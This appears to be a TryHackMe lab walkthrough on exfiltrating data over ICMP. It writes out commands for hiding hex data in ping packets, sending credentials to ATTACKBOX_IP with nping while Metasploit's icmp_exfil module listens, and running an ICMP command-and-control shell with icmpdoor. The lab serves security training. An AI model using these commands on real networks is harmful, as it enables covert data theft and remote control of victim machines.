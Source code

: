 # Exfiltration Using ICMP

## Introduction

In this task, we will demonstrate how to exfiltrate data using the ICMP protocol. ICMP (Internet Control Message Protocol) is a network layer protocol used for error reporting. For more information about ICMP and networking fundamentals, visit the TryHackMe room: **What is Networking**.

## ICMP Overview

Network devices like routers use ICMP to check connectivity between devices. Although ICMP is not a transport protocol for data transfer, it can be used to test connectivity using the `ping` command.

### ICMP Request and Reply

- **Echo Request**: Sent by HOST1 to test connectivity.
- **Echo Reply**: Sent by HOST2 to confirm availability.

### ICMP Data Section

The ICMP packet structure includes an optional **Data** section, which can contain strings or other information. Attackers can exploit this section to include data for exfiltration.

---

## Manual ICMP Data Exfiltration

### Using the `ping` Command

The `ping` command, available on most operating systems, can send ICMP packets. On Linux, the `-p` option allows specifying 16 bytes of data in hexadecimal format.

#### Example: Sending Data with `ping`

1. Convert the string `thm:tryhackme` to hexadecimal:
    ```bash
    echo "thm:tryhackme" | xxd -p
    # Output: 74686d3a7472796861636b6d650a
    ```

2. Send the data using `ping`:
    ```bash
    ping 10.10.82.84 -c 1 -p 74686d3a7472796861636b6d650a
    ```

3. Inspect the ICMP packet in Wireshark to verify the data in the **Data** section.

---

## Automated ICMP Data Exfiltration with Metasploit

### Setting Up Metasploit

1. Use the `icmp_exfil` module:
    ```bash
    msf5 > use auxiliary/server/icmp_exfil
    ```

2. Configure the BPF filter to capture ICMP packets:
    ```bash
    set BPF_FILTER icmp and not src ATTACKBOX_IP
    ```

3. Set the network interface:
    ```bash
    set INTERFACE eth0
    run
    ```

### Sending Data from the Victim Machine

1. Log in to the victim machine:
    ```bash
    ssh thm@icmp.thm.com
    ```

2. Send the **BOF** trigger:
    ```bash
    sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
    ```

3. Send the data:
    ```bash
    sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
    sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
    ```

4. Check the Metasploit terminal for the received data.

---

## ICMP Command and Control (C2) Communication

### Using ICMPDoor

1. On the victim machine, run the `icmpdoor` binary:
    ```bash
    sudo icmpdoor -i eth0 -d 192.168.0.133
    ```

2. On the attacker machine, run the `icmp-cnc` binary:
    ```bash
    sudo icmp-cnc -i eth1 -d 192.168.0.121
    ```

3. Send commands and receive responses:
    ```bash
    shell: hostname
    hostname
    shell: icmp-host
    ```

4. Capture ICMP traffic using `tcpdump` to confirm communication:
    ```bash
    sudo tcpdump -i eth0 icmp
    ```

---

## Conclusion

We successfully demonstrated data exfiltration and command execution over the ICMP protocol using manual methods, Metasploit, and the ICMPDoor tool. This highlights the importance of monitoring ICMP traffic for potential misuse.